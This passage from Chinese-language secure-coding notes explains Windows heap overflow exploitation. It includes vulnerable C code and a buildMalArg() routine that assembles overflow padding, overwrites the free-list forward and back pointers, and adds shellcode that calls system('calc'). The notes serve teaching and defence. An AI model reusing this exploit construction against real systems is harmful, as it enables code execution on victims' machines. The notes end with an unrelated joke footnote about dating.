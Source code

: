     1. 释放`h2`导致在已分配内存中打开了一个缺口
    2. 缓冲区溢出
    3. 引发返回地址被shellcode地址覆写
    4. 对`HeapAlloc()`的调用会导致shellcode的起始4个字节被返回地址`\xb8\xf5\x12\x00`所覆盖，地址需要可被执行！
    5. 控制转移到shellcode

* 通过覆写异常处理器地址获取控制，引发异常

    ```c title="vuln.c"
	int mem(char *buf) {
		HLOCAL h1 = 0, h2 = 0;
		HANDLE hp;
		hp = HeapCreate(0, 0x1000, 0x10000);	// (1)
		if (!hp) return -1;
		h1 = HeapAlloc(hp, HEAP_ZERO_MEMORY, 260); // (2)
		strcpy((char *)h1, buf); // (3)
		// (4)!
		h2 = HeapAlloc(hp, HEAP_ZERO_MEMORY, 260);
		printf("we never get here");
		return 0;
	}
	int main(int argc, char *argv[]) {
		HMODULE l;
		l = LoadLibrary("wmvcore.dll");
		buildMalArg();
		mem(buffer);
		return 0;
	}
	/* (5)! */
	char buffer[1000]="";
	void buildMalArg() {
		int addr = 0, i = 0;
		unsigned int systemAddr = 0;
		char tmp[8]="";
		systemAddr = GetAddress("msvcrt.dll","system");
		for (i = 0; i < 66; i++) strcat(buffer, "DDDD");
		strcat(buffer, "\xeb\x14");
		strcat(buffer, "\x44\x44\x44\x44\x44\x44"); // (6)
		strcat(buffer, "\x73\x68\x68\x08"); // (7)
		strcat(buffer, "\x4c\x04\x5d\x7c");
		for (i = 0; i < 21; i++) strcat(buffer,"\x90");
		strcat(buffer, "\x33\xC0\x50\x68\x63\x61\x6C\x63\x54\x5B\x50\x53\xB9"); // (8)
		fixupaddresses(tmp, systemAddr);
		strcat(buffer,tmp);
		strcat(buffer,"\xFF\xD1\x90\x90");
		return;
	}
	```

    1. 创建堆
    2. 分配了一个单独的内存块堆，包括：段头、为`h1`所分配的内存、段尾
    3. overflowed here
    4. 覆写段尾，包括 `LIST_Entry` 结构，指针很可能在下一个对RtlHeap的调用时被引用——这会触发一个异常
    5. 可被用于构造恶意参数从而对`mem()`函数中的漏洞发动攻击的代码，实现漏洞利用的函数例子之一
    6. 改写了尾随空闲块的前向和后向指针
    7. 前向指针被控制权将要转移到的地址所取代
    8. 后向指针则被将要被覆写的内存地址所取代


[^1]: 首先，约会n个女孩；然后，约会更多的女孩，但是娶比之前n个女孩都好的那个；最后停止约会；如果你能一共约会2n个女孩的话，那么只有很小的概率，你会和最差的女孩结婚